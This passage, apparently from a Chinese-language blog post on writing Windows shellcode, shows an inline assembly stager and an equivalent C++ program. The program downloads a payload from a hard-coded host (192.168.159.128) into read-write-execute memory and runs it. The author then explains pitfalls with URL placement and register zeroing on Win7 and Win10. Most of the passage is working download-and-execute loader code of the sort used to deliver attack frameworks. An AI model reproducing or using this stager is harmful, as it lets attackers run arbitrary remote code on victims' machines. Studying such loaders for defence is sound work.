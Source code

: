 ```c++
        call edx
        mov edi, eax

        mov edx, dword ptr[esp + 0x4]
        push 0x40
        push 0x1000
        push 0x400000
        push 0
        call edx

        mov esi, eax
        mov edx, dword ptr [esp]
        push ebp
        push 0x400000
        push eax
        push edi
        call edx
        jmp esi
    }
}
```

这段汇编的功能和下面这个代码实现的效果是一样的

```c++
#include<Windows.h>
#include<wininet.h>
#pragma comment (lib, "wininet.lib")

int main() {
    HINTERNET Session = InternetOpenA("aa", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    HINTERNET Http = InternetOpenUrlA(Session, "http://192.168.159.128/2Kvi", NULL, 0, INTERNET_FLAG_NO_CACHE_WRITE, NULL);
    LPVOID a = VirtualAlloc(NULL, 0x400000, MEM_COMMIT,     PAGE_EXECUTE_READWRITE);
    DWORD dwRealWord;
    BOOL response = InternetReadFile(Http, a, 0x400000, &dwRealWord);
    ((void(*)())a)();
    return 0;
    }
```

整体的思路就是先把函数都取出来push到栈里，然后再一个个调用

0x04 踩坑
-------

这次写shellcode的时候踩了两个坑

首先是push url那个地方，本来把url放在esp的上面发现读不到，最后只能把esp先降到比ebp低然后放到ebp下面才可以读到，当然应该有好的方法就像CS那样直接把url放在payload的某一块然后去读，具体该怎么操作还是没有想到，或许以后看一下CS的shellcode会有启发

第二个就是CALL，在win10下面CALL 寄存器之后那个寄存器会置零，然后再把置零的寄存器push进去刚好起一个截取字符串的作用，但是在win7下CALL了之后不会置零，最后选择了xor edx,edx置零，这段汇编用到的函数地址都是放在edx里面的所以置零的是edx
